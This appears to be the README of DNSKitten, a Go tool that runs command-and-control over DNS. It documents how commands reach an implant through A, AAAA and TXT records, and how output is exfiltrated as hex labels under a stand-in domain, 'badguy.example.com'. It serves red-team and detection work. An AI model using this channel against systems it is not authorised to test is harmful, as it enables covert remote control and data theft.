 DNSKitten
=========

In the spirit of netcat, but uses DNS instead of TCP.  Directly inspired by
[dnscat2](https://github.com/iagox86/dnscat2), but much smaller and
client-agnostic.

Features:
- Sends data from stdin to a client via DNS
- Sends data from DNS requests from a client to stdout
- Ignores duplicate requests

For legal use only.

Installation
------------
```bash
go get github.com/magisterquis/dnskitten
```

The included build.sh script can be used to build for a variety of platforms.

Clients
-------
There is no one reference client (i.e. malware) for DNSKitten.  In the
[`clients`](./clients) directory are some examples, but in general, DNSKitten
is client-agnostic.

DNSKitten does no demultiplexing of clients.  In general, it's a pretty simple
tool.  Multiple clients will need multiple intstances of DNSKitten.  One way to
do this is to assign each client a subdomain and have the main resolver forward
requests for each subdomain to a separate local instance of DNSKitten.  Tmux is
helpful for this.

Requests
--------
Each request must use a name (qname) which is unique for the previous 10240
requests.  This is to prevent caching and help mitigate duplicate output
caused by excitable resolvers trying to refresh cached data.  An easy way to do
this is to prepend a counter or random string to the domain in the request,
e.g. `example.com` -> `391.example.com`.

C2 -> Client
------------
Data to be sent from the C2 server to the Client (e.g. a command to execute)
can be requested with any of the following record types (qtype):

| QType | Encoding | Example                                                                                                                   |
|-------|----------|---------------------------------------------------------------------------------------------------------------------------|
| A     | Three bytes, base64-encoded                        | `who` -> `d2hv` -> 64.32.68.76                                                  |
| AAAA  | Same as A, but 12 encoded bytes                    | `uname -a; id` -> `dW5hbWUgLWE7IGlk` -> 6457:3568:6257:5567:4c57:4537:4947:6c6b |
| TXT   | A single byte string, up to 128 bytes              |                                                                                 |
| URI   | Same as TXT, with the Priority and Weight set to 0 |                                                                                 |

A and AAAA records will be space (0x20) padded on the right if the
base64-encoded data is too short.

Client -> C2
------------
Data to be sent from the Client to the C2 server (e.g. command output) should
be hex-encoded and made the leftmost label of a domain ending in `.o.<domain>`.
Each request should be unique to prevent caching.  This is easily performed by
adding a label to the requested name with a counter or a random string.  An
NXDOMAIN response will be returned.

If the output to be returned is `kitten` and the domain is
`badguy.example.com`, a valid request might be
```
6b697474656e.1234.o.badguy.example.com
```
Note the label with 1234 is to prevent caching.

Examples
--------
Coming soon.

Windows
-------
Should work with no modifications.  Binaries available upon request.
